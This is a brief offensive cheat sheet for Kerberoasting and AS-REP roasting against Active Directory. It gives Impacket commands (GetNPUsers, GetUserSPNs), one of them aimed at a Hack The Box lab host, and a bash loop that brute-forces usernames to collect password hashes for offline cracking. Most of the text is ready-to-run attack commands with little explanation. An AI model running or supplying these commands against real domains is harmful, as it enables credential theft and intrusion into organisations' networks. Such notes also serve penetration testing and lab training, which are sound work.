 # Kerberoasting
## GetNPUsers (Impacket)
````bash
impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass
````

## Bruteforcing Kerberoasting
AS-REP roasting is a technique that allows retrieving password hashes for users that have Do not require Kerberos preauthentication property selected:

![](https://www.ired.team/~/files/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nj7h01rJKzhElx_RC%2F-L_njEkL2a_oSCa1g0H9%2FScreenshot%20from%202019-03-12%2021-08-33.png?alt=media&token=dc08b9a5-1cae-4762-a6a0-773735227aad)
````bash
while read p; do GetNPUsers.py <domain>/"$p" -request -no-pass -dc-ip <DC-IP> >> hash.txt; done < usernames.txt
````

## GetUserSPNs
Impacket’s GetUserSPNs.py again simplifies the process to find SPNs, and is also able to request the TGS and
extract the hash for offline cracking.
````bash
impacket-GetUserSPNs <domain>/<username> -dc-ip <DC-IP>
````
### Requesting TGS ticket
Requesting a Ticket Granting Service ticket, which is can be cracked offline because the TGS_REP is encrypted using NTLM password hash of the account in whose context the service instance is running.
````bash
impacket-GetUserSPNs <domain>/<username> -dc-ip <DC-IP> -request
````
